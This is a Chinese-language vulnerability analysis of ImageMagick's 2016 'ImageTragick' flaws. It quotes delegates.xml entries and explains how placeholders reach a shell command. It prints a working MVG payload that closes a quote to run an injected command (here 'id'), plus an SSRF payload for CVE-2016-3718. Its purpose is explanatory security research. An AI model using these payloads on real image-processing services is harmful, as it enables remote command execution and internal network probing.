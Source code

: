 ```
  <delegate decode="txt" encode="ps" mode="bi" command="&quot;enscript&quot; -o &quot;%o&quot; &quot;%i&quot;"/>
  <delegate decode="miff" encode="win" stealth="True" spawn="True" command="&quot;/usr/bin/display&quot; -immutable -delay 0 -window-group %[group] -title &quot;%l &quot; &quot;ephemeral:%i&quot;"/>
  <delegate decode="wmf" command="&quot;wmf2eps&quot; -o &quot;%o&quot; &quot;%i&quot;"/>
  <delegate decode="xps:color" stealth="True" command="&quot;gxps&quot; -dQUIET -dSAFER -dBATCH -dNOPAUSE -dNOPROMPT -dMaxBitmap=500000000 -dAlignToPixels=0 -dGridFitTT=2 &quot;-sDEVICE=ppmraw&quot; -dTextAlphaBits=%u -dGraphicsAlphaBits=%u &quot;-r%s&quot; %s &quot;-sOutputFile=%s&quot; &quot;%s&quot;"/>
  <delegate decode="xps:cmyk" stealth="True" command="&quot;gxps&quot; -dQUIET -dSAFER -dBATCH -dNOPAUSE -dNOPROMPT -dMaxBitmap=500000000 -dAlignToPixels=0 -dGridFitTT=2 &quot;-sDEVICE=bmpsep8&quot; -dTextAlphaBits=%u -dGraphicsAlphaBits=%u &quot;-r%s&quot; %s &quot;-sOutputFile=%s&quot; &quot;%s&quot;"/>
  <delegate decode="xps:mono" stealth="True" command="&quot;gxps&quot; -dQUIET -dSAFER -dBATCH -dNOPAUSE -dNOPROMPT -dMaxBitmap=500000000 -dAlignToPixels=0 -dGridFitTT=2 &quot;-sDEVICE=pbmraw&quot; -dTextAlphaBits=%u -dGraphicsAlphaBits=%u &quot;-r%s&quot; %s &quot;-sOutputFile=%s&quot; &quot;%s&quot;"/>
</delegatemap>

```

我们可以看到，这里它定义了很多占位符，比如%i是输入的文件名，%l是图片exif label信息。而在后面command的位置，%i和%l等占位符被拼接在命令行中。这个漏洞也因此而来，被拼接完毕的命令行传入了系统的system函数，而我们只需使用反引号（`）或闭合双引号，来执行任意命令。

漏洞报告中给出的POC是利用了如下的这个委托：

```
<delegate decode="https" command="&quot;curl&quot; -s -k -o &quot;%o&quot; &quot;https:%M&quot;"/>

```

它在解析https图片的时候，使用了curl命令将其下载，我们看到%M被直接放在curl的最后一个参数内。ImageMagick默认支持一种图片格式，叫mvg，而mvg与svg格式类似，其中是以文本形式写入矢量图的内容，而这其中就可以包含https处理过程。

所以我们可以构造一个.mvg格式的图片（但文件名可以不为.mvg，比如下图中包含payload的文件的文件名为vul.gif，而ImageMagick会根据其内容识别为mvg图片），并在https://后面闭合双引号，写入自己要执行的命令：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|id; ")'
pop graphic-context

```

这样，ImageMagick在正常执行图片转换、处理的时候就会触发漏洞：

[![](http://static.wooyun.org//drops/20160505/2016050510205564018.jpg)](http://drops.wooyun.org/wp-content/uploads/2016/05/14624373793837.jpg)

其他几个CVE也比较有趣，比如CVE-2016-3718，他是利用mvg格式中可以包含url的特点，进行SSRF攻击，POC如下：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://example.com/)'
pop graphic-context

```
